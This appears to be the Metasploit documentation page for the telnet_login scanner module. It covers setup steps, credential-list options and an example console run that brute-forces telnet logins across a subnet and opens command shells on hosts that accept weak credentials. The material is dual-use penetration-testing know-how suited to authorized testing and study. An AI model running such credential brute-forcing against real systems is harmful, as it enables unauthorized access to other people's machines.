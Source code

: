 ## Description
This module will test a telnet login with a list of provided credentials on a range of machines and report successful logins.

## Verification Steps

1. Do: ```use auxiliary/scanner/telnet/telnet_login```
2. Do: ```set RHOSTS [IP]```
3. Do: ```set THREADS [NUMBER OF THREADS]```
4. Do: ```set USER_FILE [USERNAME FILE]```
5. Do: ```set PASS_FILE[PASSWORD FILE]```
6. Do: ```run```

## Options

This auxiliary module allows you to pass credentials in a number of ways. You can specifically set a username and password, you can pass a list of usernames and a list of passwords for it to iterate through, or you can provide a file that contains usernames and passwords separated by a space.

### BLANK PASSWORD 

When set to `true`, it'll bruteforce with blank passwords for all users. Default value is `false`.

### USERNAME

Only one username to authenticate with.

### PASSWORD

Only one password to authenticate with. 

### USERPASS_FILE 

File containing username and passwords separated by space, one pair one line.

### USER_FILE

File containing username one per line.

### PASS_FILE

File containing passwords one per line.


## Scenarios 

In this scan we have provided list of username and passwords files separately. 

```
msf > use use auxiliary/scanner/telnet/telnet_login
msf auxiliary(scanner/telnet/telnet_login) > set RHOSTS 1.1.1.0/24
RHOSTS => 1.1.1.0/24
msf auxiliary(scanner/telnet/telnet_login) > set THREADS 254
THREADS => 254
msf auxiliary(scanner/telnet/telnet_login) > set BLANK_PASSWORDS false
BLANK_PASSWORDS => false
msf auxiliary(scanner/telnet/telnet_login) > set USER_FILE users.txt
USER_FILE => users.txt
msf auxiliary(scanner/telnet/telnet_login) > set PASS_FILE passwords.txt
PASS_FILE => passwords.txt
msf auxiliary(scanner/telnet/telnet_login) > set VERBOSE false
VERBOSE => false
msf auxiliary(scanner/telnet/telnet_login) >run

[+] 1.1.1.116 - SUCCESSFUL LOGIN root : s00p3rs3ckret
[*] Command shell session 1 opened (1.1.1.101:50017 -> 1.1.1.116:23) at 2010-10-08 06:48:27 -0600
[+] 1.1.1.116 - SUCCESSFUL LOGIN admin : s00p3rs3ckret
[*] Command shell session 2 opened (1.1.1.101:41828 -> 1.1.1.116:23) at 2010-10-08 06:48:28 -0600
[*] Scanned 243 of 256 hosts (094% complete)
[+] 1.1.1.56 - SUCCESSFUL LOGIN msfadmin : msfadmin
[*] Command shell session 3 opened (1.1.1.101:49210 -> 1.1.1.56:23) at 2010-10-08 06:49:07 -0600
[*] Scanned 248 of 256 hosts (096% complete)
[*] Scanned 250 of 256 hosts (097% complete)
[*] Scanned 255 of 256 hosts (099% complete)
[*] Scanned 256 of 256 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(scanner/telnet/telnet_login) >
```
